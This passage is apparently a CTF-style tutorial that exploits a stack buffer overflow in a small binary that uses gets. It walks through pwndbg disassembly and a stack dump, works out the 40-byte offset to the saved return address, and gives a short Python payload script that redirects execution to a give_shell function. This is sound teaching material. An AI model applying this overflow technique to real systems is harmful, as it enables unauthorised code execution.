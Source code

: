 to verify that is correct we can take a look in gdb. We will set a break point in main just before we leave the function to take a look at the frame:
```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:	push   rbp
   0x00000000004005c8 <+1>:	mov    rbp,rsp
   0x00000000004005cb <+4>:	sub    rsp,0x30
   0x00000000004005cf <+8>:	mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:	mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:	mov    edi,0x40068e
   0x00000000004005db <+20>:	call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:	lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:	mov    rdi,rax
   0x00000000004005e7 <+32>:	mov    eax,0x0
   0x00000000004005ec <+37>:	call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:	mov    eax,0x0
   0x00000000004005f6 <+47>:	leave
   0x00000000004005f7 <+48>:	ret
End of assembler dump.
pwndbg> break *0x00000000004005f6
Breakpoint 1 at 0x4005f6
pwndbg> run
```

enter 32 'A's when prompted and then on the break run this command:
```
pwndbg> x/6xg $rbp - 0x20
0x7fffffffdc40:	0x4141414141414141	0x4141414141414141
0x7fffffffdc50:	0x4141414141414141	0x4141414141414141
0x7fffffffdc60:	0x0000000000400600	0x00007ffff7a05b97
``` 
And you will see our 32 A's represented in hex (0x41) followed by our rbp and then a return address.

So we now know how many bytes we have to write to get to that return address so we can over write it (32+8) with the address of our give_shell function 

But what do we need to put in its place? simple, the starting address of the give_shell function.
which we have from our disassembly from objdump `00000000004005b6`
* note you can also get this address from gdb with `p give_shell`
# Exploit
so we need our string to look like 40 charachters of anything, followed by that address, but we need to make sure the address is inputted correctly, which means we need to insert it as hex, and in little endian format.

So instead of `00000000004005b6` we have `\xb6\x05\x40\x00\x00\x00\x00\x00`

And lets make a little [script](pwn1.py) to generate this payload so we don't have to keep typing it out:

```
#!\usr\bin\python
#pwn1.py
## Total payload length
payload_length = 40
## Controlled memory address to return to in Little Endian format (two addresses next to each other)
return_address = '\xb6\x05\x40\x00\x00\x00\x00\x00'
## Building the padding between buffer overflow start and return address
padding = 'B' * payload_length
myPayload = padding + return_address
print myPayload
```
simple enough and then we can just write that to a file
with: `python pwn1.py > fuzzing`